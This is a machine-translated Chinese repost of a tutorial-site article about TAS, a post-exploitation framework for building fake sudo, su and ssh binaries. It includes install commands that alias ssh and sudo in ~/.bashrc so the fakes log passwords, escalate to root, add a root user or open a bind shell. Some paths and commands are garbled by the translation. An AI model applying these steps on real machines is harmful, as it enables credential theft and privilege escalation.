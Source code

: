 # TAS:一个很小的框架，可以很容易地操纵 TTY &创建假的二进制文件

> 原文：<https://kalilinuxtutorials.com/tas/>

[![TAS : A Tiny Framework For Easily Manipulate The TTY & Create Fake Binaries](img//19aa612e5de0ff2d62b850d82a1d0bea.png "TAS : A Tiny Framework For Easily Manipulate The TTY & Create Fake Binaries")](https://1.bp.blogspot.com/-iHKUhhUSLyo/XirxcAeYmOI/AAAAAAAAElQ/67Qbqk9hR14kFu-Vlc-J1ger7RKmuJpDgCLcBGAsYHQ/s1600/generic-keylogger%25281%2529.png)

TAS 是一个很小的框架，可以很容易地操纵 tty 并创建假的二进制文件。该框架有三个主要函数，tas_execv、tas_forkpty 和 tas_tty_loop。

*   **tas_execv:** 这是一个类似于 execv 的函数，但是它并不重新执行当前的二进制文件，这对于创建假的二进制文件非常有用。
*   **tas_forkpty:** 与 forkpty 相同，但是它填充了一个自定义结构，有关更多详细信息，请查看 forkpty 手册页。
*   **tas_tty_loop:** 这里是对 tty 进行操作的地方，你可以为输入和输出设置一个钩子函数，这样就可以存储用户输入的按键或者操作终端输出。(参见 [leet-shell](https://github.com/hc0d3r/tas#leet-shell) )。

这是一个肤浅的概述，检查 tas/fakebins/fun 文件夹中的代码，了解它真正的工作原理。

**Fakebins**

通过操纵 PATH 环境变量，或者通过使用 bash 的别名(或者任何其他支持别名的 shell)，您可以运行另一个程序，而不是用户通常运行的程序。这使得捕获击键和修改命令行来改变原来的程序行为成为可能。

更改某些程序(如 sudo 和 su)的命令行会导致权限提升。

我创建了三个程序作为你可以用这个框架做什么的例子: **sudo** 、 **su** 和 **generic-keylogger** 。

**通用键盘记录器**

顾名思义， **generic-keylogger** 是一个二进制程序，它的作用就像一个键盘记录器，主要思想是用它来获取 ssh、mysql 等程序的密码。

**须藤/须**

它可以用作键盘记录器，或者你可以通过操作命令行以 root 用户身份运行一些[模块](https://github.com/hc0d3r/tas#modules)。

**逐步 cmd 变化:**

*   用户键入`**sudo cmd**`
*   `**fakesudo cmd**`运行
*   fakesudo 执行`**sudo fakesudo cmd**`

在作为 root 运行之后，fakesudo 创建一个子进程来执行一些模块，在主 PID 中，它运行原始命令。

**注意:** fakesudo 只在用户运行`sudo cmd [args]`时改变命令，如果使用了一些额外的标志，那么命令不会被触动。

几乎同样的过程发生在**苏**身上:

*   用户键入`**su -**`
*   `**fakesu -**`运行
*   fakesu 执行`**su - -c fakesu**`

作为 root 运行后，fakesu 创建一个子进程来执行一些模块，在主 PID 中，它运行`bash -i`

**注意:** fakesu 只在用户运行`su`或`su -`时改变命令，如果使用了一些附加标志，则命令不会被触动。

**也读作-[电报刮刀:电报组刮刀工具](https://kalilinuxtutorials.com/telegram-scraper/)**

**模块**

目前，只有三个模块:

*   **add-root-user**–使用/etc/passwd 中的密码创建一个 root 用户。
*   **bind-shell**–监听传入的连接并生成一个 tty shell。
*   **系统**–以 root 用户身份执行命令。

以后我还可以添加更多的模块，但是如果你熟悉 C 语言，我相信以 root 身份修改程序运行你想运行的东西并不是很难，只需要修改几行代码，更改`super()`函数就可以了。

**大楼**

首先，构建基础库:

**$ make
CC .obj/globals.o
CC .obj/getinode.o
CC .obj/tas-execv.o
CC .obj/tty.o
CC .obj/xreadlink.o
AR .obj/libtas.a**

之后，您可以通过运行`**make [target-bin]**`来构建**通用键盘记录器**、 **sudo** 或 **su**

**举例:**

**$ make su
make[1]:进入目录'/home/test/tas/fake bins/su '
[+]配置 fakesu …
启用键盘记录程序？【y/N】y
记录行数【empty = store all】:
log file(default:/tmp/. keys . txt):
用一些好玩的模块？[y/N] n
[+]在/home/test/tas/fake bins/su/config . h
CC su
make[1]:离开目录'/home/test/tas/fake bins/su '**

**例题**

**制造假货:**

**编译:**

$ make generic-key logger
make[1]:进入目录'/home/test/tas/fake bins/generic-key logger '
[+]配置 generic-keylogger …
要记录的行数[empty = store all]: 3
logfile(默认:/tmp/.keys.txt):
[+]在/home/test/tas/fake bins/generic-key logger/config . h
CC generic-key logger
make[1]:离开目录'/home/keys

**安装:**

**$ mkdir ~/。bin $ cp 通用键盘记录器~/。bin/ssh
$ echo "别名 ssh='
$HOME/。bin/ssh'" > > ~/。巴沙尔**

**行动中:**

![](img//9fa28c78859d6a3698ae8d5679128e52.png)

**使用绑定外壳模块**

**编译:**

make[1]:进入目录'/home/test/tas/fake bins/sudo '
[+]配置 fakesudo …
启用键盘记录器？
使用一些有趣的模块？[y/N]y
[1]add-root-user
[2]bind-shell
[3]system
[4]cancel
>2
监听端口(默认值:1337): 5992
[+]在/home/test/tas/fakebins/sudo/config . h
CC sudo
make[1]:离开目录'/home/test/tas/fake bins/sudo '

**安装:**

**$ cp sudo ~/。sudo $ echo " alias sudo = '
$ HOME/。>须藤' "> ~/。巴沙尔**

**行动中:**

![](img//bea65f23aee77bd72a0752e0ab5f18f9.png)

**注释**

有些事情会使假程序无法按预期工作:

*   白名单 sudo 命令。
*   /proc/un valiable(/proc/self/exe 用于获取二进制全名)。

在 fakesudo 中使用键盘记录功能时，sudo 将始终要求输入密码。

**如何保护自己？**

这是一种后利用技术，用于执行权限提升和信息收集，如果您想保护自己，不被入侵是一个很好的开始…

[**Download**](https://github.com/hc0d3r/tas)